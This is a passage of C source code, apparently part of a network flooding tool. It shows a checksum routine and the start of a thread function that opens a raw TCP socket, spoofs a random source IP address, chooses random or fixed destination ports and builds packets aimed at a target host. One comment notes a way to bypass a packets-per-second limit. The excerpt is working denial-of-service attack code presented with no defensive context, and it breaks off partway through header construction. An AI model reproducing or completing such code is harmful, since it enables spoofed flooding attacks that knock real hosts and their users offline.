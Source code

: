 ```c
    // handle odd byte
    if(nbytes == 1) {
        oddbyte = 0;
        *((u_char*)&oddbyte) = *(u_char*)ptr;
        sum += oddbyte;
    }
    // fold sum to 16 bits and take complement
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    answer = (short)~sum;

    return(answer);
}

// thread function that performs flooding
void *flooding_thread(void *par1)
{
    // create raw socket
    int s = socket (PF_INET, SOCK_RAW, IPPROTO_TCP);
    if(s == -1)
    {
        perror("[!] you need to run the script as root [!]");
        exit(1);
    }

    // declare variables 
    char *targettr = (char *)par1;
    char datagram[4096], source_ip[32], *data, *pseudogram;
    memset(datagram, 0, 4096); // clear the buffer

    // ipv4 header
    struct iphdr *iph = (struct iphdr *) datagram;

    // tcp header
    struct tcphdr *tcph = (struct tcphdr *) (datagram + sizeof(struct ip));
    struct sockaddr_in sin;
    struct pseudo_header psh;

    // data part of packet
    data = datagram + sizeof(struct iphdr) + sizeof(struct tcphdr);
    if(length_packet == 0) {
        strcpy(data, ""); // bypasses pps limit if set to 0
    }

    // randomize source address (ipv4)
    snprintf(source_ip, 32, "%d.%d.%d.%d", rand() % 256, rand() % 256, rand() % 256, rand() % 256);
    sin.sin_family = AF_INET;
    int rdzeroport;
    // pick a random destination port
    if (floodport == 1) {
        rdzeroport = rand() % 65535 + 1;
        sin.sin_port = htons(rdzeroport);
        tcph->dest = htons(rdzeroport);
    } else {
        sin.sin_port = htons(floodport);
        tcph->dest = htons(floodport);
    }

    // other ip packet handlers
    sin.sin_addr.s_addr = inet_addr(targettr);
    iph->ihl = 5;
    iph->version = 4;
    iph->tos = 0;
```